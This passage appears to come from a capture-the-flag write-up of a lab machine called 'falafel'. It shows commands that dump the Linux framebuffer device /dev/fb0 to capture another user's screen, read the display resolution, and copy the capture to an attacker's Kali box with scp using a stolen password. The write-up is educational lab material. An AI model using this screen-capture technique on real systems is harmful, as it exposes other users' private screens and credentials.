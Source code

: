 The `/dev/fb0` device is interesting. `fb0` is the frame buffer, which [provides an abstraction for the video hardware](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt). We can `cat` it and get a file:

```

moshe@falafel:/dev/shm/.z$ cat /dev/fb0 > screenshot.raw
moshe@falafel:/dev/shm/.z$ ls -l screenshot.raw
-rw-rw-r-- 1 moshe moshe 4163040 May 18 03:52 screenshot.raw

```

To view this file, we’ll also need the screen resolution, which can be found in `/sys/class/graphics/fb0/`:

```

moshe@falafel:~$ ls -l /sys/class/graphics/fb0/
total 0
-rw-r--r-- 1 root root 4096 Jun 20 16:23 bits_per_pixel
-rw-r--r-- 1 root root 4096 Jun 20 16:23 blank
-rw-r--r-- 1 root root 4096 Jun 20 16:23 bl_curve
-rw-r--r-- 1 root root 4096 Jun 20 16:23 console
-rw-r--r-- 1 root root 4096 Jun 20 16:23 cursor
-r--r--r-- 1 root root 4096 Jun 20 16:23 dev
lrwxrwxrwx 1 root root    0 Jun 20 16:23 device -> ../../../0000:00:0f.0
-rw-r--r-- 1 root root 4096 Jun 20 16:23 mode
-rw-r--r-- 1 root root 4096 Jun 20 16:23 modes
-r--r--r-- 1 root root 4096 Jun 20 16:23 name
-rw-r--r-- 1 root root 4096 Jun 20 16:23 pan
drwxr-xr-x 2 root root    0 Jun 20 16:23 power
-rw-r--r-- 1 root root 4096 Jun 20 16:23 rotate
-rw-r--r-- 1 root root 4096 Jun 20 16:23 state
-r--r--r-- 1 root root 4096 Jun 20 16:23 stride
lrwxrwxrwx 1 root root    0 Jun 20 16:23 subsystem -> ../../../../../class/graphics
-rw-r--r-- 1 root root 4096 Jun 20 16:23 uevent
-rw-r--r-- 1 root root 4096 Jun 20 16:23 virtual_size

moshe@falafel:/dev/shm/.z$ cat /sys/class/graphics/fb0/virtual_size
1176,885

```

Copy it back to kali:

```

root@kali# cat moshe.password | xclip; scp moshe@10.10.10.73:/dev/shm/.z/screenshot.raw .
moshe@10.10.10.73's password:
screenshot.raw                                        100% 4065KB   1.6MB/s   00:02

```

And open with `Gimp`. In the open dialog, select the file, as well as the file type of `Raw image data`:
